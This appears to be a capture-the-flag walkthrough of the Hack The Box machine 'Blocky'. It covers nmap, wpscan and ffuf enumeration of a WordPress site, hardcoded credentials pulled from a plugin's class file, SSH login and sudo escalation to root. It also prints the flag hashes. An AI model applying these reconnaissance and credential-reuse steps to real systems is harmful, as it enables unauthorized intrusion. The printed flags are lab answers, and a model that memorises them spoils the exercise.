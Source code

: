 ```yaml
---
cover: ../../.gitbook/assets/Blocky.png
coverY: 249.05599999999998
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Blocky

```bash
nmap -sV -sC -p21,22,80,8192 blocky.htb
```

```
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d62b99b4d5e753ce2bfcb5d79d79fba2 (RSA)
|   256 5d7f389570c9beac67a01e86e7978403 (ECDSA)
|_  256 09d5c204951a90ef87562597df837067 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
|_http-generator: WordPress 4.8
8192/tcp closed sophos
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

```bash
curl -s -X GET http://blocky.htb | grep '<meta name="generator"'
```

The WordPress version is 4.8.

There is no plugin but there are themes :

```bash
curl -s -X GET http://blocky.htb | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'themes' | cut -d"'" -f2
```

```
http://blocky.htb/wp-content/themes/twentyseventeen/style.css?ver=4.8
http://blocky.htb/wp-content/themes/twentyseventeen/assets/css/ie8.css?ver=1.0
http://blocky.htb/wp-content/themes/twentyseventeen/assets/js/html5.js?ver=3.7.3
http://blocky.htb/wp-content/themes/twentyseventeen/assets/js/skip-link-focus-fix.js?ver=1.0
http://blocky.htb/wp-content/themes/twentyseventeen/assets/js/global.js?ver=1.0
http://blocky.htb/wp-content/themes/twentyseventeen/assets/js/jquery.scrollTo.js?ver=2.1.2
```

Find users :

```bash
wpscan --url http://blocky.htb --enumerate u
```

The user is `notch`.

I can enumerate the url http://blocky.htb.

```bash
ffuf -w /home/kali/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://blocky.htb/FUZZ -fs 52227
```

The results are `wiki`, `wp-content`, `plugins`, `wp-includes`, `javascript`, `wp-admin`, `phpmyadmin`. I go to http://block.htb/plugins and download the files. I extract them and go to `./com/myfirstplugin/BlockyCode.class` and there are some credentials `root:8YsqfCTnvxAUeduzjNSXe22`.

I try these credentials on SSH

```bash
ssh notch@blocky.htb		# notch:8YsqfCTnvxAUeduzjNSXe22
```

I get the shell, now I can check sudo permissions :

```bash
cat /home/notch/user.txt  # c1a886acf96ca6b5590840ba2e948997
sudo -l
```

I can do everything as sudo thus I execute this command :

```bash
sudo -su
```

And I am root now.

```bash
cat /root/root.txt  # 66a208ec92cfb09e9a5108fd0e7f8a01
```
